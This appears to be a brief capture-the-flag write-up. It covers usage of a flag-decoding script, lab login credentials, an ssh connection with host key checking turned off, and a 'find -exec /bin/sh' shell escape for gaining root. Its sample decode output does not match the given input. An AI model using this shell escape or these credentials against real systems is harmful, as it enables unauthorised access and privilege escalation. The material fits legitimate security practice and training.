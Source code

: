 
### How to Use the hashexec.sh

1. **Make it Executable**:
   Run the following command to make the script executable:
   ```bash
   chmod +x hashexec.sh
   ```

2. **Run the Script**:
   You can run the script by passing the string and hash type. Here are examples:

   - For ROT13:
     ```bash
     ./hashexec.sh "guz{06834nnp0714586s2o2s925ps49opq31}" rot13
     ```

   - For Hexadecimal:
     ```bash
     ./hashexec.sh "74686d7b38393334623432653339656133613135323962333633393039353466306632617d" hex
     ```

### Expected Output
- For ROT13 input:
   ```
   ROT13 converted: flag
   ```


## cred

```bash
Password='-`G)8(t/NDkZ"u^{'
user=bobba
```
## connect

```bash
export ip=<ip>
ssh -o StrictHostKeyChecking=no bobba@"$ip" 
```
## root

It can be used to break out from restricted environments by spawning an interactive system shell.
```bash
find . -exec /bin/sh \; -quit
```
